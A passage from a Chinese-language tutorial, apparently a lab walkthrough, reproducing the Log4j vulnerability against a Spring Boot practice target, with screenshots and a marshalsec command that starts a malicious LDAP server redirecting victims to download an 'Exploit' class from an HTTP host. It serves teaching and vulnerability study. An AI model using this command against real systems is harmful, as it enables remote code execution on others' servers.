 ```
接下来利用一个spring boot案例继续演示这个log4j的漏洞。
先运行这个靶场。运行之前需要使用pom.xml下载项目依赖包。并根据readme.md设置好数据库并创建好数据库。
```

![image-20241126224635462](CVE漏洞复现/image-20241126224635462.png)	

```
查看这个spring boot靶场发现，登录的用户界面存在log4j的漏洞，那么就可以利用起来。
```

![image-20241126224738745](CVE漏洞复现/image-20241126224738745.png)	

```
这次我们使用marshalsec的jar包启动ldap服务。
下列命令是启动ldap服务,如果没有找到ldap的指定资源，就会访问下面http的地址下载恶意代码，然后ldap监听端口是7365
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.LDAPRefServer http://192.168.15.128:8089/#Exploit 7365
```
